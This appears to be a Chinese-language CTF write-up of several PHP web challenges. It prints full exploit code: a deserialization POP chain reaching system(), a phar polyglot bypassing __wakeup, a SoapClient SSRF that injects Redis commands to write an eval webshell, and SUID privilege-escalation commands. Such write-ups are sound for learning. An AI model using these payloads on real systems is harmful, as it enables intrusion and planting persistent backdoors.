

## EasyPOP

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class fine
{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __invoke()
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        $this->cmd = "";
        die("Go listen to Jay Chou's secret-code! Really nice");
    }
}

class show
{
    public $ctf;
    public $time = "Two and a half years";

    public function __construct($ctf)
    {
        $this->ctf = $ctf;
    }


    public function __toString()
    {
        return $this->ctf->show();
    }

    public function show(): string
    {
        return $this->ctf . ": Duration of practice: " . $this->time;
    }


}

class sorry
{
    private $name;
    private $password;
    public $hint = "hint is depend on you";
    public $key;

    public function __construct($name, $password)
    {
        $this->name = $name;
        $this->password = $password;
    }

    public function __sleep()
    {
        $this->hint = new secret_code();
    }

    public function __get($name)
    {
        $name = $this->key;
        $name();
    }


    public function __destruct()
    {
        if ($this->password == $this->name) {

            echo $this->hint;
        } else if ($this->name = "jay") {
            secret_code::secret();
        } else {
            echo "This is our code";
        }
    }


    public function getPassword()
    {
        return $this->password;
    }

    public function setPassword($password): void
    {
        $this->password = $password;
    }


}

class secret_code
{
    protected $code;

    public static function secret()
    {
        include_once "hint.php";
        hint();
    }

    public function __call($name, $arguments)
    {
        $num = $name;
        $this->$num();
    }

    private function show()
    {
        return $this->code->secret;
    }
}


if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
    $a->setPassword(md5(mt_rand()));
} else {
    $a = new show("Ctfer");
    echo $a->show();
}
```

挺简单的链子

```php
<?php

class fine
{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }
}

class show
{
    public $ctf;
    public $time = "Two and a half years";

    public function __construct($ctf)
    {
        $this->ctf = $ctf;
    }

}

class sorry
{
    private $name;
    private $password;
    public $hint = "hint is depend on you";
    public $key;

    public function __construct($name, $password)
    {
        $this->name = $name;
        $this->password = $password;
    }

}

class secret_code
{
    protected $code;
    public function __construct($a)
    {
        $this->code = $a;
    }

}
$fin = new fine("system", "cat /flag");

$sor1 = new sorry("jay", "jay");
$sor1 -> key = $fin;

$ctf = new secret_code($sor1);

$sho = new show($ctf);

$sor = new sorry("jay", $sho);

echo urlencode(serialize($sor));
```

通过**sorry**的`==`或者`echo`调用**show**的**__toString**，再到**secret_code**的**__call**，于是成功调用内置的**show(private)**，从而触发**sorry**的**__get**，最后到**fine**的**__invoke**

然后改下数组绕过**wakeup**即可

```php
O%3A5%3A%22sorry%22%3A4%3A%7Bs%3A11%3A%22%00sorry%00name%22%3Bs%3A3%3A%22jay%22%3Bs%3A15%3A%22%00sorry%00password%22%3BO%3A4%3A%22show%22%3A2%3A%7Bs%3A3%3A%22ctf%22%3BO%3A11%3A%22secret_code%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00code%22%3BO%3A5%3A%22sorry%22%3A4%3A%7Bs%3A11%3A%22%00sorry%00name%22%3Bs%3A3%3A%22jay%22%3Bs%3A15%3A%22%00sorry%00password%22%3Bs%3A3%3A%22jay%22%3Bs%3A4%3A%22hint%22%3Bs%3A21%3A%22hint+is+depend+on+you%22%3Bs%3A3%3A%22key%22%3BO%3A4%3A%22fine%22%3A2%3A%7Bs%3A9%3A%22%00fine%00cmd%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00fine%00content%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7D%7Ds%3A4%3A%22time%22%3Bs%3A20%3A%22Two+and+a+half+years%22%3B%7Ds%3A4%3A%22hint%22%3Bs%3A21%3A%22hint+is+depend+on+you%22%3Bs%3A3%3A%22key%22%3BN%3B%7D
```

## hade_waibo

~~脑洞题？~~（×，是非预期

登陆后在search功能里有任意文件读取的漏洞

**class.php**

```php
<?php
class User
{
    public $username;
    public function __construct($username){
        $this->username = $username;
        $_SESSION['isLogin'] = True;
        $_SESSION['username'] = $username;
    }
    public function __wakeup(){
        $cklen = strlen($_SESSION["username"]);
        if ($cklen != 0 and $cklen <= 6) {
            $this->username = $_SESSION["username"];
        }
    }
    public function __destruct(){
        if ($this->username == '') {
            session_destroy();
        }
    }
}

class File
{
    #更新黑名单为白名单，更加的安全
    public $white = array("jpg","png");

    public function show($filename){
        echo '<div class="ui action input"><input type="text" id="filename" placeholder="Search..."><button class="ui button" onclick="window.location.href=\'file.php?m=show&filename=\'+document.getElementById(\'filename\').value">Search</button></div><p>';
        if(empty($filename)){die();}
        return '';
    }
    public function upload($type){
        $filename = "dasctf".md5(time().$_FILES["file"]["name"]).".$type";
        move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
        return "Upload success! Path: upload/" . $filename;
    }
    public function rmfile(){
        system('rm -rf /var/www/html/upload/*');
    }
    public function check($type){
        if (!in_array($type,$this->white)){
            return false;
        }
        return true;
    }

}

#更新了一个恶意又有趣的Test类
class Test
{
    public $value;

    public function __destruct(){
        chdir('./upload');
        $this->backdoor();
    }
    public function __wakeup(){
        $this->value = "Don't make dream.Wake up plz!";
    }
    public function __toString(){
        $file = substr($_GET['file'],0,3);
        file_put_contents($file, "Hack by $file !");
        return 'Unreachable! :)';
    }
    public function backdoor(){
        if(preg_match('/[A-Za-z0-9?$@]+/', $this->value)){
            $this->value = 'nono~';
        }
        system($this->value);
    }

}
```

**index.php**

```php
<?php
error_reporting(0);
session_start();
include 'class.php';

if(isset($_POST['username']) && $_POST['username']!=''){
	#修复了登录还需要passwd的漏洞
	$user = new User($_POST['username']);
}

if($_SESSION['isLogin']){
	die("<script>alert('Login success!');location.href='file.php'</script>");
}else{
	die('
<form action="index.php" method="post">
	<div class="ui input">
		<input type="text" name="username" placeholder="Give me uname" maxlength="6">
	</div>
<form>');
}
```

**file.php**

```php
<?php
error_reporting(0);
session_start();
include 'class.php';

if($_SESSION['isLogin'] !== true){
	die("<script>alert('号登一下谢谢。');location.href='index.php'</script>");
}
$form = '
<form action="file.php?m=upload" method="post" enctype="multipart/form-data" >
    <input type="file" name="file">
    <button class="mini ui button" ><font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
  提交
</font></font></button>
</form>';


$file = new file();
switch ($_GET['m']) {

	case 'upload':
		if(empty($_FILES)){die($form);}

		$type = end(explode(".", $_FILES['file']['name']));
		if ($file->check($type)) {
			die($file->upload($type));
		}else{
			die('你食不食油饼🤬');
		}
		break;

	case 'show':
		die($file->show($_GET['filename']));
		break;

	case 'rm':
		$file->rmfile();
		die("全删干净了捏😋");
		break;

	case 'logout':
		session_destroy();
		die("<script>alert('已退出登录');location.href='index.php'</script>");
		break;

	default:
		echo '<h2>Halo! '.$_SESSION['username'].'</h2>';
		break;
}
?>
```

### 非预期

但是wakeup不能直接绕过

题面说了**flag**在根目录的文件夹里

然后读根目录的**start.sh**来得到**flag**的位置**/ghjsdk_F149_H3re_asdasfc**从而拿到**flah**

### 预期

太妙了

利用**User**类＋引用来绕过**wakeup**

我们可以看到，在**User**的**wakeup**是有一个将**username**赋值为**session**中的**username**

而php中是可以给对象一个类未定义的变量

```php
<?php
class User
{
    public $username;
}
$a = new User();
$a -> username = "123";
$a -> aaa = "456";
echo (serialize($a));

#O:4:"User":2:{s:8:"username";s:3:"123";s:3:"aaa";s:3:"456";}
```

所以此时利用phar反序列化来构造文件

```php
<?php
class User
{
 public $username;
}
class Test
{
 public $value;
}
$User = new User();
$Test = new Test();
$User->a = $Test;
$User->username = &$Test->value;
echo serialize($User);#第⼆步，需要把name改成* /*
// $Test->a = $User;
// $User->username = $Test;
// echo serialize($Test);#第⼀步，需要把名字改成数组
$phar = new \Phar("h3ne1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar-> addFromString('test.txt','h3en1');
//$phar->setMetadata($Test);第⼀步
$phar->setMetadata($User);
$phar->stopBuffering();
rename("h3ne1.phar", "test.jpg");
```

至于User类的a为什么要新起一个Test类，具体原因未知，可能与调试顺序啥的有关(**反正只有这样才能引用成功**)

然后上传一个shell命令通过`. ./*`来执行命令

将用户名改为`. ./*`就可以通过引用来绕过**wakeup**

~~自己没打出来，留个坑~~(填坑但还是没打通，摆了)

## EasyLove

题目提示了**Redis**，可以大概猜到是ssrf打Redis

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class swpu{
    public $wllm;
    public $arsenetang;
    public $l61q4cheng;
    public $love;
    
    public function __construct($wllm,$arsenetang,$l61q4cheng,$love){
        $this->wllm = $wllm;
        $this->arsenetang = $arsenetang;
        $this->l61q4cheng = $l61q4cheng;
        $this->love = $love;
    }
    public function newnewnew(){
        $this->love = new $this->wllm($this->arsenetang,$this->l61q4cheng);
    }

    public function flag(){
        $this->love->getflag();
    }
    
    public function __destruct(){
        $this->newnewnew();
        $this->flag();
    }
}
class hint{
    public $hint;
    public function __destruct(){
        echo file_get_contents($this-> hint.'hint.php');
    }
}
$hello = $_GET['hello'];
$world = unserialize($hello); 
```

正好在**newnewnew**中可以用php自带的**SoapClient**类来ssrf

然后有个hint，可以先看看hint

```php
<?php
$a = new hint();
$a->hint = 'php://filter/convert.base64-encode/resource=/var/www/html/';
echo(serialize($a));
?>
#hint.php
<?php
$hint = "My favorite database is Redis and My favorite day is 20220311";
?>
```

这样拿到了**Redis**的密码

**SoapClient**类需要两个参数，第一个参数通常指明是否是wsdl模式，我们构造的时候通常为Null，第二个参数是个数组，在非wsdl模式下，必须设置location和uri选项，其他可选。我们可以通过uri选项向内网redis发指令写木马

**exp**

```php
<?php

class swpu{
    public $wllm;
    public $arsenetang;
    public $l61q4cheng;
    public $love;
}

$a = new swpu();
$a->wllm = 'SoapClient';
$a->arsenetang = null;
$target = 'http://127.0.0.1:6379/';
$poc = "auth 20220311\r\nflushall\r\nconfig set dir /var/www/html/\r\nconfig set dbfilename shell.php\r\nset xzxzxz '<?=eval(\$_REQUEST[1])?>'\r\nsave";

$a->l61q4cheng = array('location'=>$target, 'uri'=>"hello\r\n".$poc."\r\nhello");
echo urlencode(serialize($a));
```

```php
http://e4a79d0b-f7a7-4bee-9a2e-e0d54190bf93.node4.buuoj.cn:81/?hello=O%3A4%3A%22swpu%22%3A4%3A%7Bs%3A4%3A%22wllm%22%3Bs%3A10%3A%22SoapClient%22%3Bs%3A10%3A%22arsenetang%22%3BN%3Bs%3A10%3A%22l61q4cheng%22%3Ba%3A2%3A%7Bs%3A8%3A%22location%22%3Bs%3A22%3A%22http%3A%2F%2F127.0.0.1%3A6379%2F%22%3Bs%3A3%3A%22uri%22%3Bs%3A145%3A%22hello%0D%0Aauth+20220311%0D%0Aflushall%0D%0Aconfig+set+dir+%2Fvar%2Fwww%2Fhtml%2F%0D%0Aconfig+set+dbfilename+shell.php%0D%0Aset+xzxzxz+%27%3C%3F%3Deval%28%24_REQUEST%5B1%5D%29%3F%3E%27%0D%0Asave%0D%0Ahello%22%3B%7Ds%3A4%3A%22love%22%3BN%3B%7D
```

访问后shell.php就写入了

然后flag只有root才能访问，需要提权



直接执行不行，写入文件执行

suid提权

```shell
find / -perm -u=s -type f 2>/dev/null
```

发现date可以

```shell
date -f /hereisflag/flllll111aaagg
```

拿到flag

## BlogSystem

留坑

这题太哈人了，先留着吧

[official writeup](file://D:/Typora/note/CTF/web/%E6%AF%94%E8%B5%9Bwp/WEB%E6%96%B9%E5%90%91.pdf)
